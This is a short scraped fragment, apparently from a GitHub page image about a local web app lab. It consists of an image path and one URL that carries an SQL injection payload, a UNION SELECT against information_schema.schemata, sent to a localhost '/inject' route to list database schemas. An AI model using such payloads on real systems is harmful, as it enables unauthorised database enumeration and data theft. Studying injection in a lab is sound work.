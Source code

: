 http://localhost:3000/inject?nom=' UNION SELECT schema_name, 'x', 'x', 'x' FROM information_schema.schemata -- 
